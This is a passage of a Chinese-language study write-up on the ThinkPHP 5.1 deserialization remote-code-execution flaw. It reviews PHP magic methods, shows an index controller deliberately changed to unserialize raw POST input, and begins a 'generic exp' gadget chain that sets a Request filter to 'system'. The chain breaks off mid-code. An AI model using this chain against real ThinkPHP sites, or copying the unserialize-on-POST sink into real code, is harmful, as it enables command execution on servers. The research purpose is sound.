 ThinkPHP5.1反序列化漏洞实现rce&amp;poc分析
================================

官方文档入口
------

[ThinkPHP5.1完全开发手册 · 看云 (kancloud.cn)](https://www.kancloud.cn/manual/thinkphp5_1)

前言
--

ThinkPHP框架属于应用最广的框架之一，tp5.1框架的漏洞也算很有名且影响范围很大的一个洞，很多师傅也已经写过关于thinkphp5.1X版本反序列化漏洞的分析，本篇旨在记录我的学习心得.

开始之前
----

首先，我们看到这个反序列这个关键字眼首先就会想到那些魔术方法，以及各种属性方法的各种操作触发各种魔术方法，最终执行我们想要的那个方法，把这个思路放在这里也是可以的。

漏洞复现
----

多说几句，我们还是先把存在的魔术方法回顾一下

```php
__construct构造函数每次创建对象都会调用次方法

__destruct析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行

__toString 一个对象被当字符串用的时候就会去执行这个对象的__toString

__call()，因为这个魔术方法中一般执行的是call_user_func()，call_user_func_arry()这两个函数，可以带来命令执行的效果，一般在访问没有定义的变量是触发
```

我们把加载器的index.php改成以下形式

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $c = unserialize($_POST['c']);
        return 'Welcome to ThinkPHP!';
        return $this->fetch('index');
    }

}
```

### 通用exp

```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["l1_Tuer"=>["123"]];
        $this->data = ["l1_Tuer"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
```